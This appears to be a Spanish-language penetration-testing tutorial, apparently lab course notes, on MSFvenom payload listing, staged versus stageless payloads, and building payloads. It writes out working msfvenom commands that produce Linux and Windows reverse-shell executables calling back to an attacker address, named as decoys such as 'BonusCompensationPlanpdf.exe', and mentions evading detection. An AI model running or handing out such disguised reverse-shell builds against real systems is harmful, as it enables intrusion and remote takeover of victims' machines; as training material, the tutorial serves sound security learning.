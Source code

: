 
Con **MSFvenom** instalado, podemos listar todos los payloads disponibles con el comando:

```shells
msfvenom -l payloads

```
La salida nos muestra detalles importantes, como el sistema operativo objetivo (Linux, Windows, MacOS, etc.) y si el payload es **escalonado** (_staged_) o **no escalonado** (_stageless_).

### **Diferencias entre Payloads Escalonados y No Escalonados**

- **Escalonados (_Staged_):** Permiten enviar una carga inicial (_stage_) que, al ejecutarse, se comunica con el equipo atacante para descargar el resto del payload. Son útiles en redes con menos ancho de banda, pero ocupan más espacio en memoria, lo que puede ser una desventaja.

- **No escalonados (_Stageless_):** Se envían completos sin etapas adicionales. Son ideales en entornos con alta latencia o para evadir detección al minimizar el tráfico de red. Además, suelen ser más estables en conexiones inestables.


**Identificación de payloads:**

- Ejemplo de escalonado: `linux/x86/shell/reverse_tcp`
- Ejemplo de no escalonado: `linux/zarch/meterpreter_reverse_tcp`  
La diferencia principal radica en cómo están separados los componentes en el nombre.

### Construcción de un Payload No Escalonado
Payload para Linux

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
**Explicación del comando:**

- `-p linux/x64/shell_reverse_tcp`: Define un payload no escalonado para Linux que inicia una reverse shell.
- `LHOST=10.10.14.113 LPORT=443`: Dirección IP y puerto de la máquina atacante.
- `-f elf`: Genera un archivo en formato ELF (Linux).
- `> createbackup.elf`: Crea el archivo llamado `createbackup.elf`.

Payload para Windows

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
**Explicación del comando:**

- `-p windows/shell_reverse_tcp`: Define un payload no escalonado para Windows.
- `-f exe`: Genera un archivo en formato `.exe`.
- `> BonusCompensationPlanpdf.exe`: Nombra el archivo generado.